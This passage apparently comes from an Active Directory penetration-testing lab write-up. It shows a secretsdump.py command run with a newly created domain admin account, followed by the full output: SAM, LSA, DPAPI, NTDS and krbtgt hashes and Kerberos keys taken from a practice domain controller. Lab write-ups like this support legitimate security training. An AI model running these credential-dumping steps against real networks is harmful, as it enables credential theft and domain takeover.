 We can check that we have actually created a new domain admin `hawkeye`, we can
use the account for a secretdump of the domain controller, starting from a new
shell on out attack machine:

```
┌──(kali㉿kali)-[~]
└─$ secretsdump.py MARVEL.local/hawkeye:"Password1@"@10.0.2.15           
/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xa33f1b26ad2e9952ea75944bcc924a4f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
MARVEL\HYDRA-DC$:aes256-cts-hmac-sha1-96:910b3e434a744a5790265135d0008370e258b4074fdf992ee0c32a55b0ec4b5e
MARVEL\HYDRA-DC$:aes128-cts-hmac-sha1-96:0f007e2f0d818b9859c49398ab22c3ce
MARVEL\HYDRA-DC$:des-cbc-md5:b940ef13f88a4c2c
MARVEL\HYDRA-DC$:plain_password_hex:97c486ca9325694d338fe066379f6619afa955cecb843e6141ac4d16826e01fe5b9c3be6975d03847106fdbcbacbcfb8bd9e1506cc1f3a117f4639a8623170823473773e6d772a11ac144ce6e280504c1448d3c1051d9e50f73d716bf5832c7bb20a2fa63635342c9f386605ec935ebc86432af12e4eb30ef26855ddb4e74a757f1e2a067e948469a0e083b3afa90a58d80ae7f69764cb56940030edbd5b73079b96358a87e8c8d1a09a35dd546151f7334c86396cbb9261555e8a9309549435426bc789c5835ccd7d7e3bac41adeffb96bfcb15d8de2e56b5574e5839f9c32021107af427df480435f146caf57cde26
MARVEL\HYDRA-DC$:aad3b435b51404eeaad3b435b51404ee:03e907748ac23a4099f056285700c278:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xd5640372dda77c8cdb6e3bd70eb3f1f7225b94f6
dpapi_userkey:0x3485f28420d853677c510e08cff6f07e313d3ae7
[*] NL$KM 
 0000   65 F2 94 8D 2E 36 01 B1  25 48 91 CE 7C 19 D1 93   e....6..%H..|...
 0010   D6 61 7E CA E3 AF 3B 4F  D0 93 60 B4 ED 18 AE 34   .a~...;O..`....4
 0020   58 5E EA 93 5A A9 1C FC  F3 24 38 D8 8A 97 84 BD   X^..Z....$8.....
 0030   CF D1 B8 6C C9 EA 13 4E  83 59 60 BA EC A3 F4 61   ...l...N.Y`....a
NL$KM:65f2948d2e3601b1254891ce7c19d193d6617ecae3af3b4fd09360b4ed18ae34585eea935aa91cfcf32438d88a9784bdcfd1b86cc9ea134e835960baeca3f461
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:938102c5d3c2c7e1ddc0ed42952f52d2:::
MARVEL.local\tstark:1103:aad3b435b51404eeaad3b435b51404ee:1bc3af33d22c1c2baec10a32db22c72d:::
MARVEL.local\SQLService:1104:aad3b435b51404eeaad3b435b51404ee:f4ab68f27303bcb4024650d8fc5f973a:::
MARVEL.local\fcastle:1105:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
MARVEL.local\pparker:1106:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
HnlbLdcDQz:1109:aad3b435b51404eeaad3b435b51404ee:e34cc68a03918b6ce42d0c1014dd7e4d:::
hawkeye:1110:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
HYDRA-DC$:1000:aad3b435b51404eeaad3b435b51404ee:03e907748ac23a4099f056285700c278:::
THEPUNISHER$:1107:aad3b435b51404eeaad3b435b51404ee:a7310a9f64a8598773252ee0675e8aae:::
SPIDERMAN$:1108:aad3b435b51404eeaad3b435b51404ee:1328c537e4ddf842c1456e4176112fdb:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:d4a7b71c57a7c97cbad1ed9306856d4b98374ef9b4720ec1adbd7e85c88656b0
```